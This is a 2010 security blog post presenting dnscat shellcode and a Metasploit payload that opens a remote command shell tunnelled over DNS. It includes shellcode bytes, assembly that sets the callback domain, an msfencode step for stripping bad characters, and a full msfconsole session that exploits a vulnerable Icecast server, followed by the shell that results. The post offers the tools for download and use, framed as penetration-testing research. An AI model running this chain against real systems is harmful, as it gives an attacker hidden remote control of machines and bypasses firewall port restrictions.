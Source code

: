 ```yaml
---
id: 618
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-17T20:35:30-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=618'
permalink: '/?p=618'
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes. Like I always say, go big or go home!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both dnscat (the client + server) and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it (I used Cygwin) -- you can compile the Windows shellcode on Linux and vice versa, though. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the system
- This is set up as a single stage, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities

That being said, it also works great when it's usable. The target I use for testing is [Icecast 2 version 2.0.0](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs. It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are,

1. Install [Icecast2](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) on your victim machine (Win32)
2. Download the experimental dnscat [Metasploit module](/blogdata/dnscat-shell-win32.rb) and put it in your Metasploit directory (modules/payloads/singles/windows/)
3. Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the [dnscat wiki](/wiki/index.php/Dnscat) for more information
4. Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:
```
msf > use exploit/windows/http/icecast_header         
msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32
msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221
msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org
msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
```

Meanwhile, on your dnscat server, if all went well, you should see:

```
$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
```

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS.

## Why bother?

The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

## Feedback

As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code.

Thanks!